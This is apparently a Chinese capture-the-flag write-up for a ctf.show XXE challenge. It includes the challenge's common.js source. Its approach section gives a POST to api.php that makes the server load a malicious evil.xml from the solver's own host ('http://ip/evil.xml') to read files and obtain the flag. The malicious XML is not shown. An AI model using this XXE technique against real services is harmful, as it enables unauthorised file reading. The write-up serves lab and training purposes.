 ### 思路

> 
查看源码中的commo.js文件，当我们没有填city的时候报错，推测考点xxe，然后测试api这个借口，发现必须是http(s)协议，而且必须包含.xml,于是利用思路：自己vps上构造恶意xml读取文件，首先新建两个文件，ip用自己的服务器ip替代，将两个文件上传到自己服务器，访问：`http://b8e15b29-d83f-4e6d-8015-f5b726b1685c.challenge.ctf.show:8080/api.php`，`post:city=fuzhou&amp;api=http://ip/evil.xml`，base64解码获得flag


### Payload

> 
commo.js源码


```
function jstq(){
        var city='';
        $.ajax({
            type:'GET',
            url:'http://ip-api.com/json/',
            async:false,
            dataType:'json',
            success:function(data){
              city = data['city'];
            }
        });
        var ret = '';
        $.ajax({
                type: 'POST',
                url: 'api.php',
                async : false,
                dataType: 'json',
                data:{
                        api:'http://flash.weather.com.cn/wmaps/xml/city.xml', //网址http://开头，必须xml结尾，否则错误
                        city:city
                },
                success: function(data){
                      ret = data['msg'];
                }
                }); 
        return ret;

/*      $api = str_replace('city', $city, $api); 替换城市为访问者所在城市
        $xml = geturl($api,'xml'); 获取xml数据
        $weather = simplexml_load_string($xml); 解析xml 数据
        foreach($weather-&gt;children() as $child)  遍历xml节点
              {
                if(strstr($child['cityname'],'市')){  cityname 包含 字符“市”，则认为是市区天气
                  $city = $child['cityname'];
                  $tq = $child['stateDetailed'];
                  $f = $child['windState'];
                }
              }
        xml 示例视图：http://flash.weather.com.cn/wmaps/xml/xian.xml
         */

}

```
